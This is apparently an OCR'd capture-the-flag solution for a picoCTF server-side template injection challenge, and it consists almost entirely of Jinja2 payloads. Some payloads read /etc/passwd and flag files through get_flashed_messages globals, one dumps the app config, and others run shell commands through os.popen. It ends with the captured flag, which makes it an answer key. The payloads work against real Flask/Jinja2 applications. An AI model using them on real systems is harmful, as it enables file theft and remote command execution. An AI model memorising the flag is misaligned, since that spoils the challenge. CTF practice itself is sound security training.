 ```bash
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

```
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/config/flag.txt").read() }}
```
```



{{ get_flashed_messages.__globals__.__builtins__.open("/flag.txt").read() }}
```


```bash
{{ config }}
```

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```

```shell
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag\ requirements.txt').read() }}
```

```final payload
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}
```


```flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}
```